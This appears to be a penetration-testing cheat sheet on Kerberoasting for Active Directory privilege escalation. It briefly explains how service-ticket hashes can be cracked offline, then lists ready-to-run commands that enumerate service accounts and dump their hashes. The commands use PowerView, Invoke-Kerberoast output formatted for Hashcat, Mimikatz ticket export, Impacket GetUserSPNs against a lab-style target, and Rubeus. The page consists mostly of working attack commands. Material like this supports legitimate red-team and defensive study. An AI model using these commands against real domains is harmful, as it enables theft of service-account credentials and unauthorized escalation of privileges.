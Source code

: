 # Active Directory Domain Privilege Escalation

## Active Directory Domain Privilege Escalation

### Kerberoast

_What is this:_  All standard domain users can request a copy of all service accounts along with their correlating password hashes, so we can ask a TGS for any SPN that is bound to a "user"\
account, extract the encrypted blob that was encrypted using the user's password and, brute force it offline.

PowerView: Get User Accounts that are used as Service Accounts

```
Get-NetUser -SPN
```

Get every available SPN account, request a TGS, and dump its hash

```
. .\Invoke-Kerberoast.ps1
Invoke-Kerberoast -OutputFormat Hashcat
Invoke-Kerberoast -erroraction silentlycontinue -OutputFormat Hashcat | Select-Object Hash | Out-File -filepath 'C:\Users\Administrator\Music\hash_capture.txt' -Width 8000
```

Requesting the TGS for a single account:

```
Request-SPNTicket
```

Export all tickets using Mimikatz

```
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

**AD Module:**

```
Get User Accounts that are used as Service Accounts
Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName
```

**Impacket-GetUsersSPNs:**

```
python GetUserSPNs.py <DomainName>/<DomainUser>:<Password> -outputfile <FileName>
impacket-GetUserSPNs -dc-ip 10.10.10.100 active.htb/SVC_TGS -request -save -outputfile GetUserSPNs.out
```

Rubeus:

Kerberoasting and outputing on a file with a specific format

```
Rubeus.exe kerberoast /outfile:<fileName> /domain:<DomainName>
```
